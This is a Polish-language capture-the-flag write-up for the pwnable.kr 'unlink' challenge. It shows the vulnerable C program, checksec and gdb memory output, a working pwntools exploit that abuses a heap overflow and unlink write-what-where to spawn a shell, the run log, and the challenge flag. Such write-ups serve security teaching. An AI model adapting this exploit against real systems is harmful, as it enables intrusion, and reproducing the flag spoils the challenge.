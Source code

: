 ## unlink - 10 pt ##

Flaga: `conditional_write_what_where_from_unl1nk_explo1t`

Kod źródłowy **unlink.c**:


```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

typedef struct tagOBJ{
	struct tagOBJ* fd;
	struct tagOBJ* bk;
	char buf[8];
}OBJ;

void shell(){
	system("/bin/sh");
}

void unlink(OBJ* P){
	OBJ* BK;
	OBJ* FD;
	BK=P->bk;
	FD=P->fd;
	FD->bk=BK;
	BK->fd=FD;
}
int main(int argc, char* argv[]){
	malloc(1024);
	OBJ* A = (OBJ*)malloc(sizeof(OBJ));
	OBJ* B = (OBJ*)malloc(sizeof(OBJ));
	OBJ* C = (OBJ*)malloc(sizeof(OBJ));

	// double linked list: A <-> B <-> C
	A->fd = B;
	B->bk = A;
	B->fd = C;
	C->bk = B;

	printf("here is stack address leak: %p\n", &A);
	printf("here is heap address leak: %p\n", A);
	printf("now that you have leaks, get shell!\n");
	// heap overflow!
	gets(A->buf);

	// exploit this unlink!
	unlink(B);
	return 0;
}

```
* Output z checksec:
```
[*] '/home/unlink/unlink'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
```
* Program na początku działania alokuje trzy struktrury na stercie i tworzy z nich listę dwukierunkową (double linked list)
* Za pomocą `gets()` można nadpisać nagłówek struktury `B`
* Funkcja `unlink()` zajmuje się "sprzątaniem" - jej działanie jest identyczne jak podczas zwalniania pamięci za pomocą `free()` tzn:
  * Pobierany jest następny element listy, wzgledem "zwalnianej" struktury - do zmiennej `FD`
  * Wskaźnik na poprzedni element, zapisywany jest w zmiennej `BK`
* Koniec funkcji `main()` zawiera kod mogący spowodować sytuację write-what-where - w przypadku tego zadania chodzi konkretnie o przepisanie adresu z heapa na stos:
```asm
0x80485ff <main+208> mov ecx, dword ptr [ebp - 4] <0xf77635a0> 
0x8048602 <main+211> leave 
0x8048603 <main+212> lea esp, dword ptr [ecx - 4] 
0x8048606 <main+215> ret
```
* Patrząc na powyższy listing, najbardziej interesujące z naszego punktu widzenia jest nadpisanie pamięci pod adresem `ebp-4` - wartość ta jest w późniejszym etapie ładowana na początek stosu
* Wartość `ebp-4` "leży" w odległości 16 bajtów od intencjonalnego leaku adresu stosu w binarce - w tą wartość wpiszemy adres heapa, na którym umieścimy adres funkcji `shell()`
* Docelowa struktura pamięci będzie wyglądać w następujący sposób: `| adres shell() | JUNK 8 bajtów + 4 bajty | leaked heap + 12 | leaked stack + 16 |`
  * `leaked heap + 12` - wartość do wpisania 
  * `leaked stack + 16` - adres do wpisania (`ebp-4`)
  * Poniżej zawartość pamięci, aby lepiej móc zobrazować co dzieje się "pod spodem":
```
gdb-peda$ r
Starting program: /home/unlink/unlink 
here is stack address leak: 0xffcbbc24
here is heap address leak: 0x8789410
now that you have leaks, get shell!
[...]
gdb-peda$ x/ 0x8789410
0x8789410:	0x08789428
gdb-peda$ x/10 0x8789410
0x8789410:	0x08789428	0x00000000	0x00000000	0x00000000
0x8789420:	0x00000000	0x00000019	0x08789440	0x08789410
0x8789430:	0x00000000	0x00000000
gdb-peda$ x/10 0x08789428
0x8789428:	0x08789440	0x08789410	0x00000000	0x00000000
0x8789438:	0x00000000	0x00000019	0x00000000	0x08789428
0x8789448:	0x00000000	0x00000000
gdb-peda$ x/10 0x08789440
0x8789440:	0x00000000	0x08789428	0x00000000	0x00000000
0x8789450:	0x00000000	0x00000409	0x20776f6e	0x74616874
0x8789460:	0x756f7920	0x76616820
gdb-peda$ x/10 0xffcbbc24
0xffcbbc24:	0x08789410	0x08789440	0x08789428	0xf76ce3dc
0xffcbbc34:	0xffcbbc50	0x00000000	0xf7537637	0xf76ce000
0xffcbbc44:	0xf76ce000	0x00000000
gdb-peda$ x/10 0x08789428
0x8789428:	0x08789440	0x08789410	0x00000000	0x00000000
0x8789438:	0x00000000	0x00000019	0x00000000	0x08789428
0x8789448:	0x00000000	0x00000000
```
* Po poskładaniu wszystkiego do kupy, gotowy exploit:
```python
from pwn import * 
SHELL = 0x80484eb

c = ssh(host='pwnable.kr', user='unlink', password='guest', port=2222) 
p = c.process('./unlink') 

p.recvuntil('here is stack address leak: ') 
s_addr = int(p.recvline().strip(), 16) 

p.recvuntil('here is heap address leak: ') 
a_addr = int(p.recvline().strip(), 16) 
p.recvline() 

payload = p32(SHELL) + 'A' * 12 + p32(a_addr + 12) + p32(s_addr + 0x10) 
p.sendline(payload) 
p.interactive()

```
* Uruchomienie exploita:
```
» python unlink.py 
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/fumfel/.pwntools-cache/update to 'never'.
[*] You have the latest version of Pwntools (3.12.0)
[+] Connecting to pwnable.kr on port 2222: Done
[!] Couldn't check security settings on 'pwnable.kr'
[+] Starting remote process './unlink' on pwnable.kr: pid 29725
[*] Switching to interactive mode
$ $ cat flag
conditional_write_what_where_from_unl1nk_explo1t
```
